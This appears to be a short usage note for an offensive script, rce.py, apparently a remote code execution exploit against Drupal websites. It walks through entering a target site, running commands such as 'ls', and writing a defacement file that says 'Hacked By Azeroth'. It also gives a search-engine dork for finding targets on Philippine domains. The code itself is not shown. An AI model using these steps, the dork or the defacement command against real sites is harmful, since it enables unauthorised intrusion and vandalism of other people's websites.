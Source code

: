 usage: python3 rce.py
output: site name?:
(Entern your Drupal Target Website)
command: ls
command: echo "Hacked By Azeroth" >> az.html
Path: /az.html
Dork: inurl:/user/password site:ph
